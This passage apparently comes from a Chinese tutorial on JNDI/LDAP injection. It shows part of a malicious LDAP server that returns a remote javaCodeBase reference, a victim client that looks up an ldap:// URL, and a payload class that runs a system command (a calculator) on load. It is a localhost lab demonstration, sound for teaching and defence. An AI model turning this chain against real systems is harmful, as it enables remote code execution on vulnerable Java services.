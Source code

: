 ```plain
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

3、客户端（LDAPClient.java）代码，也是受害端

```plain
package jndi_ldap_injection;

import javax.naming.InitialContext;
import javax.naming.NamingException;


public class LDAPClient {
    public static void main(String[] args) throws NamingException{
        String url = "ldap://127.0.0.1:1234/Calculator";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }

}
```

4、HTTP 端恶意载荷（Calculator.java）代码

```plain
public class Calculator {
    public Calculator() throws Exception {
        Runtime.getRuntime().exec("gnome-calculator");
    }
}
```

#### 启动服务

1、将 HTTP 端恶意载荷 Calculator.java，编译成 Calculator.class 文件  
[![](assets/1711556038-bac920ff715a15bb1df1f2fbd0417b53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194745-0a67f242-bda7-1.png)
